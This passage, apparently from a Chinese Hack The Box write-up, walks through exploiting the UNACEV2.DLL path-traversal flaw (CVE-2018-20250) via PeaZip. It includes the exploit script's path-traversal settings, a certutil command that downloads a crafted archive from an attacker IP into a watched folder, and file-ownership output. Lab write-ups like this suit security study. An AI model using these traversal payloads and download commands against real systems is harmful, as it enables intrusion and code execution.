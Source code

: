 
继续检查peazip的目录，发现这个软件同样有`UNACEV2.DLL`，那么理论上Winrar目录穿越的漏洞在这个软件上同样可行。

```
Directory: C:Program FilesPeaZipresunace


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         9/1/2007   2:56 PM            601 note_install.txt
-a----        1/15/2010  12:29 PM           1304 peazip-unace-WIN64.iss
-a----        1/15/2010  12:27 PM           1269 peazip-unace-WINDOWS.iss
-a----         6/2/2007   9:41 AM          27136 unace.exe
-a----        8/26/2005   2:50 AM          77312 UNACEV2.DLL
-a----        3/20/2019   2:12 PM           1565 unins000.dat
-a----        3/20/2019   2:11 PM         707354 unins000.exe

```

使用 [https://github.com/WyAtu/CVE-2018-20250](https://github.com/WyAtu/CVE-2018-20250) 的脚本生成rar文件。

需要修改代码如下：

```
# The archive filename you want
rar_filename = "test.rar"
# The evil file you want to run
evil_filename = "shell.exe"
# The decompression path you want, such shown below
target_filename = r"C:C:C:../../../../../../../tmp/kira.exe"
```

将生成文件放入`C:UserslukeDocumentsods`，注意需要修改文件名为`md5.rar`

```
certutil.exe -urlcache -split -f http://10.10.14.220:23333/test.rar C:UserslukeDocumentsodsee6ea50adb1d71c85d28d2c56c13e166.rar
```

然后查看tmp可发现成功写入

```
Directory: C:tmp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/1/2020   6:54 PM           2109 kira.exe

```

然后需要思考的是，需要把什么文件写入什么目录，一般的利用思路是将后门程序写入用户的启动项，但是HTB的靶机并不会重启，只会重置，因此这个套路是行不通的。

查看一下写入文件的权限，发现owner是另外一个用户cam，那么猜测执行解压的脚本用户是cam。

```
get-acl kira.exe|format-list

Path   : Microsoft.PowerShell.CoreFileSystem::C:tmpkira.exe
Owner  : REcam
Group  : RENone
Access : NT AUTHORITYSYSTEM Allow  FullControl
         BUILTINAdministrators Allow  FullControl
         BUILTINUsers Allow  ReadAndExecute, Synchronize
         REcam Allow  FullControl
Audit  :
Sddl   : O:S-1-5-21-311800348-2366743891-1978325779-1002G:S-1-5-21-311800348-2366743891-1978325779-513D:AI(A;ID;FA;;;SY
         )(A;ID;FA;;;BA)(A;ID;0x1200a9;;;BU)(A;ID;FA;;;S-1-5-21-311800348-2366743891-1978325779-1002)
```